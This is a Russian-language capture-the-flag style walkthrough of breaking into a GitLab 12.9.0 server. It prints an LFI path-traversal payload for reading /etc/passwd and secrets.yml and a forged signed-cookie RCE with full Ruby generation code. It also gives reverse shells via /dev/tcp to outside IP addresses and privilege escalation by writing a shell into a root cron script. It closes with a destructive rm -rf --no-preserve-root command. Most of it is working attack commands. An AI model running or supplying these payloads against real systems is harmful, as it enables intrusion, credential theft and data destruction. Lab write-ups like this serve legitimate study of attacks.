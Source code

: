# Разведка

Открываем в браузере 4f643f0a02e6.ngrok.io.

Видим страницу авторизации гитлаба. Регистрация не отключена, попробуем создать аккаунт. Успешно регистриуемся, в разделе help смотрим версию - у нас gitlab 12.9.0.

Походив немного по публичным репозиториям, находим в коммитах какой-то удаленный файл с кучей паролей пользователей. Сохраняем, пригодится.

# Ищем эксплойт

Спустя несколько минут поисков узнаем, что эта версия гитлаба уязвима к `LFI`:

Необходимо создать 2 проекта, создать в 1 из них `issue`, перенести этот `issue` в другой проект, при этом указав в описании нужный нам файл, например:

`! [mia] (/uploads/ed4aet10d9#4021350eScleaa123b6e1/../../../../../../../../../../../etc/passwd)`

При переносе в другой проект, мы получим доступ к файлу `/etc/passwd`.

# Получаем reverse shell

Вытаскиваем выше описанным способом файл с настройками gitlab.

`! [mia] (/uploads/00000000000000000000000000000000/../../../../../../../../../../../../../opt/gitlab/embedded/service/gitlab-rails/config/secrets.yml)`

Там указан `secret_key_base`, он используется для подписи куки файлов. Подняв свой гитлаб и указав этот же ключ, мы можем делать валидные куки. А так как из за особенностей git lab мы можем встроить в куку любую команду, то мы получаем RCE.

`
$ curl 'http://4f643f0a02e6.ngrok.io/' -b "remember_user_token=BAhvOkBBY3RpdmVTdXBwb3J0OjpEZXByZWNhdGlvbjo6RGVwcmVjYXRlZEluc3RhbmNlVmFyaWFibGVQcm94eQk6DkBpbnN0YW5jZW86CEVSQgs6EEBzYWZlX2xldmVsMDoJQHNyY0kibiNjb2Rpbmc6VVRGLTgKX2VyYm91dCA9ICsnJzsgX2VyYm91dC48PCgoIGBiYXNoIC1pID4mIC9kZXYvdGNwLzc5LjEzNi4xNzMuMTU5LzEzMzcgMD4mMWAgKS50b19zKTsgX2VyYm91dAY6BkVGOg5AZW5jb2RpbmdJdToNRW5jb2RpbmcKVVRGLTgGOwpGOhNAZnJvemVuX3N0cmluZzA6DkBmaWxlbmFtZTA6DEBsaW5lbm9pADoMQG1ldGhvZDoLcmVzdWx0OglAdmFySSIMQHJlc3VsdAY7ClQ6EEBkZXByZWNhdG9ySXU6H0FjdGl2ZVN1cHBvcnQ6OkRlcHJlY2F0aW9uAAY7ClQ=--432599b62642a46749065c3bbe688bd507e1bc5c"
`

Генерируем эксплойт:

```
$ ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy.new(erb, :result, "@result", ActiveSupport::Deprecation.new)
$ request = ActionDispatch::Request.new(Rails.application.env_config)
$ request.env["action_dispatch.cookies_serializer"] = :marshal
$ cookies = request.cookie_jar
$ erb = ERB.new("<%= `bash -i >& /dev/tcp/95.46.3.95/1337 0>&1` %>")
$ depr = ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy.new(erb, :result, "@result", ActiveSupport::Deprecation.new)
$ cookies.signed[:cookie] = depr
$ puts cookies[:cookie]
```

Мы получили `reverse shell`. Прописав whoami понимаем, что мы под юзером `gitlab`. Выведем содержимое `/home`:
```
$ ls /home
nikol
```

Вспоминаем про файл с какими-то паролями, находим в нем пароль юзера `nikol` - `helloluc4`

Прописываем `su nikol` и получаем ошибку:

`su must be run from terminal`

Идем гуглить, находим [решение на stackoverflow](https://stackoverflow.com/questions/36944634/su-command-in-docker-returns-must-be-run-from-terminal/41872292):

```
$ echo "import pty; pty.spawn('/bin/bash')" > /tmp/asdf.py
$ python /tmp/asdf.py
```

Логинимся под юзером `nikol`:

```
$ su nikol
Enter password: helloluc4
```

# Поднимаем рута

Запустим тулзу `LinEnum` для сбора информации:

```
$ wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh | bash
```

Видим, что в `cron` висит какой-то `script.sh`. Вычисляем, что он находится в директории `/home/nikol/script.sh` и выезжаем за ним:

```
$ cd /home/nikol
$ ls -la
```

Этим файлом владеет `root` и мы имеем право в него что-то писать.

Пропишем туда ~~rm -rf / --no-preserve-root~~ подключение к нашему компу, чтобы получить обратный шелл, перед этим начав слушать порт 1337:
```
$ echo "bash -i >& /dev/tcp/95.46.3.95/1337 0>&1" > script.sh

```

Получаем обратный шелл от рута. Легчайшая. Для кого? Для величайших хакеров всея руси.

# Эпилог 

Внезапно из ниоткуда пришел злой сисадмин и начал безжалостно уничтожать все обратные шеллы:

```
$ killall bash
```

Закрепиться на машине или прописать `rm -rf --no-preserve-root`, вот в чем вопрос?

```
$ rm -rf --no-preserve-root
```

![alt text](https://i.pinimg.com/originals/4f/ce/c7/4fcec737c161fed5c37cb2198b777b81.jpg)